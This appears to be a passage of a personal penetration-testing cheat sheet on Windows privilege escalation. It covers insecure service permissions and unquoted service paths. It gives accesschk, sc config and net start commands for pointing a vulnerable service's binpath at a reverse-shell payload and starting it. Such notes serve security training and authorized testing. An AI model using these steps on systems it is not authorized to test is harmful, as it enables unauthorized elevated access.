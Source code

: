 ### **Insecure Service Permissions**

_**Useful Permissions**_

* SERVICE\_STOP, SERVICE\_START

#### **Dangerous Permissions**

* **SERVICE\_CHANGE\_CONFIG, SERVICE\_ALL\_ACCESS**
  * accesschk.exe /accepteula -uwcqv \<user> \<service>
  * You can see below that the service "daclsvc" has the "_**SERVICE\_CHANGE\_CONFIG**" permission, which means you can change the BINPATH, it also has_ **SERVICE\_START** _and_ **SERVICE\_STOP**

![](<../../.gitbook/assets/image (20) (1).png>)

* **Changing binpath**
  * `sc config daclsvc binpath = "Path to shell (ex: C:\windows\temp)"`
  * After changing the binpath, check that the config took with "sc qc \<servicename>
  * After you confirm it took, you can start the service with "net start \<servicename>" which should trigger your reverse shell

![](<../../.gitbook/assets/image (21).png>)

### _**Unquoted Service Paths**_&#x20;

{% hint style="warning" %}
### _**As a user, you should be able to restart the system, unlike on Linux where you sometimes need root or sudo**_
{% endhint %}

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}
Very good writeup on unquoted service paths
{% endembed %}
